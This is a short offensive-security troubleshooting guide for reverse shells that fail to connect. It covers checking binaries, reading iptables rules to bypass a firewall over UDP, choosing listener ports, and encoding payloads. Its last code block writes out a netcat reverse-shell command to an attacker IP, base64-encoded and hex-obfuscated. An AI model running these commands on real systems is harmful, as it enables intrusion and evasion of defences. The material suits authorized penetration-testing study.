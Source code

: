 # Troubleshooting Shells

Sometimes when trying to obtain a reverse shell, we do not receive any connection. Here is a methodology to solve this problem.

## Methodology

### Step #1

Although it sounds obvious, we must verify that the syntax is correct.

### Step #2

Verify if the binary/program exists on the compromised machine. For example, if we use the "bash" binary to start a shell, verify that it exists. In case it does not exist, there are other options such as "sh". Remember to test with various programs, such as powershell, Python, C, etc. and to perform the [RCE check](rce-check.md).

### Step #3

The firewall may be the cause of this problem. In that case, we will have to check its rules and see if there is a way to bypass them.

Example on Linux with IPTables rules:

```bash
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 53 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
```

It starts by setting the default for inbound (**INPUT**) as **DROP** and for outbound (**OUTPUT**) and forward as **ACCEPT**. Then reading from the top:

* TCP 53 inbound is allowed
* TCP 22 inbound is allowed
* All UDP inbound is allowed
* All new TCP connections outbound are dropped.

Then, since all new outgoing TCP connections are discarded, we cannot initiate a reverse shell over this protocol. However, since incoming and outgoing connections (this one by default) are accepted over UDP, we can circumvent firewall rules.

### Step #4

Use common ports or ports that are open on the compromised machine to configure the listener with netcat. Examples: 80,443,53,22, etc.

### Step #5

Encode the malicious code to obtain a shell. You can use URL encode, base64, hexadecimal (this can help us to obfuscate our IP using netcat), etc. Examples:

```bash
echo -n 'nc -e /bin/bash 10.10.10.10 443' | base64 -w 0
nc -e /bin/bash 0x0a0a0a0a 443 # 0x0a0a0a0a = 10.10.10.10
```
